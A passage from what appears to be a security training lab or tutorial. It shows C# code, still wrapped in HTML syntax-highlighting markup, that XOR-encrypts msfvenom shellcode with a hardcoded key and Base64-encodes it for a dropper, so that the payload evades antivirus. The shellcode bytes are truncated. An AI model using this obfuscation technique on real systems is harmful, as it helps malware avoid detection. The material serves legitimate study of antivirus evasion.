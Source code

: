             <span class="token punctuation">}</span>
            <span class="token keyword">return</span> shell<span class="token punctuation">;</span>
        <span class="token punctuation">}</span>
        <span class="token keyword">static</span> <span class="token return-type class-name"><span class="token keyword">void</span></span> <span class="token function">Main</span><span class="token punctuation">(</span><span class="token class-name"><span class="token keyword">string</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> args<span class="token punctuation">)</span>
        <span class="token punctuation">{</span>
            <span class="token comment">//XOR Key - It has to be the same in the Droppr for Decrypting</span>
            <span class="token class-name"><span class="token keyword">string</span></span> key <span class="token operator">=</span> <span class="token string">"THMK3y123!"</span><span class="token punctuation">;</span>

            <span class="token comment">//Convert Key into bytes</span>
            <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> keyBytes <span class="token operator">=</span> Encoding<span class="token punctuation">.</span>ASCII<span class="token punctuation">.</span><span class="token function">GetBytes</span><span class="token punctuation">(</span>key<span class="token punctuation">)</span><span class="token punctuation">;</span>

            <span class="token comment">//Original Shellcode here (csharp format)</span>
            <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> buf <span class="token operator">=</span> <span class="token keyword">new</span> <span class="token constructor-invocation class-name"><span class="token keyword">byte</span></span><span class="token punctuation">[</span><span class="token number">460</span><span class="token punctuation">]</span> <span class="token punctuation">{</span> <span class="token number">0xfc</span><span class="token punctuation">,</span><span class="token number">0x48</span><span class="token punctuation">,</span><span class="token number">0x83</span><span class="token punctuation">,</span><span class="token range operator">..</span><span class="token punctuation">,</span><span class="token number">0xda</span><span class="token punctuation">,</span><span class="token number">0xff</span><span class="token punctuation">,</span><span class="token number">0xd5</span> <span class="token punctuation">}</span><span class="token punctuation">;</span>

            <span class="token comment">//XORing byte by byte and saving into a new array of bytes</span>
            <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> encoded <span class="token operator">=</span> <span class="token function">xor</span><span class="token punctuation">(</span>buf<span class="token punctuation">,</span> keyBytes<span class="token punctuation">)</span><span class="token punctuation">;</span>
            Console<span class="token punctuation">.</span><span class="token function">WriteLine</span><span class="token punctuation">(</span>Convert<span class="token punctuation">.</span><span class="token function">ToBase64String</span><span class="token punctuation">(</span>encoded<span class="token punctuation">)</span><span class="token punctuation">)</span><span class="token punctuation">;</span>        
        <span class="token punctuation">}</span>
    <span class="token punctuation">}</span>
<span class="token punctuation">}</span></code></pre>
</details>



The code is pretty straightforward and will generate an encoded  payload that we will embed on the final payload. Remember to replace the `buf` variable with the shellcode you generated with msfvenom. 

